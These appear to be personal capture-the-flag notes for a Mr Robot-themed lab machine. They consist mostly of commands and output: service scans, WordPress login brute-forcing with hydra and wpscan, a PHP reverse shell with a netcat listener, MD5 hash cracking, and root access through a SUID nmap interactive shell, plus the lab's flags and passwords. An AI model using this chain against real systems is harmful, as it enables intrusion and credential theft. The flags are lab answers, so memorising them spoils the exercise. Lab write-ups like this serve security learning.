 ip#1: 10.10.233.89
ip#2: 10.10.86.2

export TARGET=10.10.86.2

nmap -Pn -sC -sV -oN nmap/initial $TARGET

nmap -Pn --script http-wordpress* -oN nmap/vulns $TARGET

nikto -h $TARGET




https://10.10.233.89/robots.txt

User-agent: *l
fsocity.dic
key-1-of-3.txt

https://10.10.233.89/key-1-of-3.txt => 073403c8a58a1f80d943455fb30724b9


wget https://10.10.233.89/fsociety.dic
cat fsocity.dic | sort -u |uniq > clean.dic


hydra -V -L fsocity.dic -p 123 $TARGET http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'

[80][http-post-form] host: $TARGET   login: Elliot 


wpscan --url $TARGET --passwords fsocity.dic --usernames 'Elliot'

[!] Valid Combinations Found:
 | Username: Elliot, Password: ER28-0652

https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

nc -lvp 9001

wget http://10.10.86.2/notfound.html

https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/



daemon@linux:/home/robot$ cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b


GPU => hashcat -m 0 robot.hash /usr/share/wordlists/rockyou.txt
VM => https://crackstation.net/

robot:abcdefghijklmnopqrstuvwxyz


ey-2-of-3.txt
822c73956184f694993bede3eb39f959



```sh
obot@linux:/$ find / -perm -4000 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```


```sh
robot@linux:/$ nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
# id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
```

# cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4




http://10.10.233.89/fsociety

## Wordpress

Wordpress v4.3.1

CVE-2019-9787

http://10.10.233.89/wp-login.php


http-wordpress-users.nse
http-wordpress-enum.nse
http-wordpress-brute.nse
http-vuln-cve2017-1001000.nse
http-vuln-cve2014-8877.nse


--script-args 'userdb=users.txt,passdb=passwds.txt,http-wordpress-brute.hostname=domain.com, http-wordpress-brute.threads=3,brute.firstonly=true' <target>


## MSF 

exploit/multi/http/wp_crop_rce                                 2019-02-19       excellent  Yes    WordPress Crop-image Shell Upload
=> require auth

exploit/multi/http/wp_db_backup_rce                            2019-04-24       excellent  Yes    WP Database Backup RCE
=> require auth

exploit/unix/webapp/jquery_file_upload                         2018-10-09       excellent  Yes    blueimp's jQuery (Arbitrary) File Upload
